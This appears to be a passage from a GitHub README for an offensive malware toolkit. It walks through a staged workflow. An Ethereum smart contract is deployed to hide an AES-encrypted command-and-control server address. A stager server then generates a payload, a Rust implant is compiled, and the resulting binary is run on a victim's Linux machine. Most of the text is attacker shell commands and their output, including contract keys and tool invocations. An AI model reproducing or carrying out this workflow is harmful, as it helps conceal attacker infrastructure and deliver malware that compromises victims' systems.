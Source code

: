 https://hardhat.org
https://github.com/ethereum/solc-js
https://geth.ethereum.org/docs/tools/abigen

attention to hardcoded binaries paths in contract_generator.py script!

###### 1 - Generate and deploy smart contract (contains the AES encrypted DNS address of server)
```
attacker_machine@ThreatActor:$ python3 contract_generator.py 
[...]
Calculating keccak from :: ImTWdbREqskoawYAXzEB()

Contract address :: 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6
Encrypted C2 address :: weTq1JD5gpk4Guv/9wTXXhcXgxI+0V+aQPKly7F0rdM=
Contract key :: 9o2goajTJ3ivI+DLB+rRzw==
Generated contract variable name :: ImTWdbREqskoawYAXzEB
Contract keccak :: 7941b5a6

gen_payload primaryServerIP:port 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6 9o2goajTJ3ivI+DLB+rRzw== 7941b5a6
```

###### 2 - Generate payload using the returned parameters
```
attacker_stager_server@Stager:$ python3 server_rust.py 
Server running!
> gen_payload stagerServerPublicIP:stagerServerExposedPort(1337 by default) 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6 9o2goajTJ3ivI+DLB+rRzw== 7941b5a6
Smart contract address :: 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6
Smart contract Keccak :: 7941b5a6
Generated payload with hash :: b'8822a96ba043c606b16ede401cb4a22f2a57c63214311c4ed21f5c705a5d7687'

> 
```

###### 3 - Compile payload
```
attacker_stager_server@Stager:~/Desktop/babagola/migrate$ cargo build --release --target=x86_64-unknown-linux-musl
[...]
warning: `migrate` (bin "migrate") generated 147 warnings
    Finished release [optimized] target(s) in 0.18s
warning: the following packages contain code that will be rejected by a future version of Rust: rustc-serialize v0.3.24
note: to see what the problems were, use the option `--future-incompat-report`, or run `cargo report future-incompatibilities --id 1051`
```

###### 4 - run (Victim)
```
user@Ubuntu:$ ./malware 
[debug information]
```
